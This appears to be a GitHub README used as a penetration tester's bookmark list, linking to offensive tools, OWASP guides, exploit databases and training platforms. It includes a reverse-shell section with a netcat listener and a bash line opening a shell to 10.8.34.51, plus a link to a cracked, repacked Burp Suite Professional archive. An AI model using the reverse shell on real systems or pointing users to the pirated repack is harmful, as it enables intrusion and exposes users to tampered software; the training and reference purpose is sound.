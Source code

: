 <div align="center">
  <img src="https://i.imgur.com/sHcFK7G.jpg">
  <h1 align="center">
</div>
 
## Main links

 - [Temp email](https://linux0.net/)
 - [Cyberchief](https://gchq.github.io/CyberChef/)
 - [JWT.io](https://jwt.io/)
 - [Revshellgenerator](https://tex2e.github.io/reverse-shell-generator/index.html)
 - [SecLists](https://github.com/danielmiessler/SecLists)
 - [bbfuzzing](https://github.com/reewardius/bbFuzzing.txt)
 - [PayloadsAllTheThings](https://github.com/Fananad/PayloadsAllTheThings)
 - [Chat GPT](https://chat.openai.com/)
 - [PEASS-ng](https://github.com/Fananad/PEASS-ng)
 - [Bookmarks](https://github.com/Fananad/offensive-bookmarks/tree/main)
  
  
## Resourses for reading
  
 - [OWASP WSTG ENG](https://github.com/OWASP/wstg/tree/master/document)
 - [OWASP WSTG RUS](https://github.com/andrettv/WSTG/tree/master/WSTG-ru)
 - [OWASP ASVS RUS](https://github.com/andrettv/ASVS/tree/master/4.0/ru)
 - [HackTricks](https://book.hacktricks.xyz/welcome/readme)
 - [Exploit DB](https://www.exploit-db.com/)
 - [Exploit DB](https://vulners.com/) 

# Academies
  
  - [PortSwigger](https://portswigger.net/)
  - [Academy](https://academy.hackthebox.com/dashboard/)
  - [TryHackme](https://tryhackme.com/)
  - [HackTheBox](https://www.hackthebox.com/)
  - [Hacker101](https://www.hacker101.com/)
  - [Codeby Games](https://codeby.games/categories)

# Revers shell 

  - [revshell](https://www.revshells.com/)
  - [ngrok](https://ngrok.com/)

  - python -c 'import pty;pty.spawn("/bin/bash")'
  - nc -lvnp 9999
  - sh -i >& /dev/tcp/10.8.34.51/9999 0>&1


# Search

  - [whois](https://whois.domaintools.com/)
  - [archive](https://archive.org/)
  - [archive ip,dns](viewdns.info)
  - [ip на одном хосте](https://suip.biz/ru/)

# APP
  - [cmd injection commix](https://github.com/commixproject/commix)
  - [ssti tplmap](https://github.com/epinna/tplmap)
  - [ngrok](https://ngrok.com/download)
  



## Download Burp

[CLICK THIS LINK](https://github.com/Maverick-25/Burp-Suite/releases/download/tool/Burp_Suite_Professional_2023.6.1_2023june15_repack-pwn3rzs.7z)
